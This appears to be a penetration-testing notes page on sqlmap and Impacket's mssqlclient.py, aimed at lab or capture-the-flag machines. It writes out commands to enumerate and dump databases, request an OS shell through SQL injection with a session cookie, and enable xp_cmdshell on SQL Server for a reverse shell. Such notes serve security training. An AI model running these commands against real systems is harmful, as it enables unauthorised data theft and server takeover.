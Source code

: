 ## SQLmap
SQLmap is an open-source tool used in penetration testing to detect and exploit SQL  injection flaws. SQLmap automates the process of detecting and exploiting SQL  injection. SQL Injection attacks can take control of databases that utilize SQL.

If we needed authentication to access to the web we will need to add the cookies value to the command. For doing that we can use Cookie-Editor, explained in [[Useful Resources]].

#### Example 1

We can use *sqlmap* specifying the target url:
- *Parameters*:
	- `-u`: Specifies the target URL to be tested for SQL injection vulnerabilities. In this case, the target URL is http://192.168.1.102/administrator
	    
| Option                    | Description                                                                                                                       |
|---------------------------|-----------------------------------------------------------------------------------------------------------------------------------|
| `-u`                       | Specifies the target URL to be tested for SQL injection vulnerabilities. Example: `http://192.168.1.102/administrator`.          |
| `--batch`                  | Runs sqlmap in batch mode, performing operations automatically without prompting for user input.                                  |
| `--dbs`                    | Instructs sqlmap to enumerate the available databases on the database server.                                                     |
| `--tables`                 | Instructs sqlmap to enumerate the available tables in the selected database.                                                      |
| `--level (1-5, default 1)` | Defines the scope of vectors and boundaries used for injection. Higher levels involve more obscure techniques with lower success. **Levels:** 1 (default): Basic tests, minimal impact. 2: Extends tests to more techniques, might cause some disruption. 3: More advanced techniques, higher chance of impacting the target. 4-5: Highly specific and risky techniques, use with caution. |
| `--risk (1-3, default 1)`  | Controls the types of exploit vectors based on their potential risk. **Levels:** 1 (default): Low-risk techniques, unlikely to cause harm. 2: Includes techniques with moderate risk of data loss or denial-of-service. 3: Attempts all techniques, including disruptive or data-altering ones (use responsibly). |


```bash
sqlmap -u http://192.168.1.102/administrator --forms --dbs --batch
```

After using this command the available databases will be printed, then you can enumerate  the tables stored in each database:

```bash
sqlmap -u http://192.168.1.102/administrator --forms -D <database_name> --tables --batch
```

Once you have introduced this command, the available columns in the database will be printed. Now to find the content of the columns you need to use the following command:
```bash
sqlmap -u http://192.168.1.102/administrator --forms -D <database_name> -T <Columns_name> --columns --batch
```

Finally, you can print the columns information using:
```bash
sqlmap -u http://192.168.1.102/administrator --forms -D <database_name> -T <Columns_name> -C <parameter1>,<parameter2><parameter3> --dump --batch	
```

#### Example 2	
For a most exhaustive analysis, we can save the vulnerable request with _save item_ in Burp Suite. The field in which the insertion will be made in this example is **id**, previously investigated in Burp Suite.

| Option               | Description                                                                                                                                     |
| -------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------- |
| `-r pc`              | Specifies the file that contains the saved HTTP request, named "pc" in this case. It will be used as input for sqlmap.                          |
| `-p id`              | Indicates the name of the URL or body parameter in the HTTP request to be tested for SQL injection. Example: `id`.                              |
| `--dbs`              | Instructs sqlmap to enumerate the available databases on the database server.                                                                   |
| `--tables`           | Instructs sqlmap to enumerate the available tables in the selected database.                                                                    |
| `--technique U`      | Specifies the SQL injection techniques to be tested. Options: **U**:UNION query-based, **B**: Blind, **E**: Error-based,**T**: Time-based blind |
| `-D SQLite_masterdb` | Specifies the name of the database where operations will be performed. Example: `SQLite_masterdb`.                                              |
| `-T accounts`        | Specifies the name of the table on which operations will be performed. Example: `accounts`.                                                     |
| `--columns`          | Instructs sqlmap to enumerate the available columns in the specified table.                                                                     |
| `--batch`            | Runs sqlmap in batch mode, performing the operations automatically without prompting for user input.                                            |
| `--threads 5`        | Specifies the number of threads sqlmap will use simultaneously. Example: 5 threads.                                                             |
| `--dump`             | Extracts the data from the specified table and displays it as output.                                                                           |

- Find databases:
```bash
sqlmap -r pc -p id --dbs --technique=U	
```
- Find tables in a specific database:	
```bash
sqlmap -r pc -p id -D <database_name> --tables --technique=U
```
- Find columns in a specific table:
```bash
sqlmap -r pc -p id -D <database_name> -T <table_name> --columns --technique=U 
```
- Dump columns content
```bash
sqlmap -r pc -p id -D <database_name> -T <table_name> --dump --columns "<column1_name>,<column2_name>,<column3_name>" --technique=U
```

#### Exemple 3
| Option       | Description                                                                                                                                                       |
| ------------ | ----------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `-u`         | Specifies the target URL to be tested for SQL injection vulnerabilities. Example: `http://10.129.95.174/dashboard.php?search=any+query`                           |
| `--cookie`   | Sets the cookie value for the HTTP request. Cookies maintain session information. Example: `PHPSESSID=7u6p9qbhb44c5c1rsefp4ro8u1`                                 |
| `--os-shell` | Attempts to obtain an operating system shell on the vulnerable server if SQL injection is successful. This provides direct interaction with the operating system. |

```bash
sqlmap -u 'http://10.129.95.174/dashboard.php?search=any+query' --cookie="PHPSESSID=7u6p9qbhb44c5c1rsefp4ro8u1" --os-shell
```
## mssqlclient.py 
mssqlclient.py is a script from the Impacket class collection. When mssqlclient.py is executed, a connection is established with the specified SQL Server and it allows interaction through a command-line interface.

- `windows-auth`: This flag is specified to use Windows Authentication.
- `ARCHETYPE/sql_svc`: Server ID (previously found).
````bash
python3 mssqlclient.py ARCHETYPE/sql_svc@{TARGET_IP} -windows-auth
````

In case `xp_cmdshell` is not enabled (which is the command we will use for a reverse shell), perform the following steps:
````bash
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
sp_configure; -- Enabling the sp_configure as stated in the above error message
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;

````

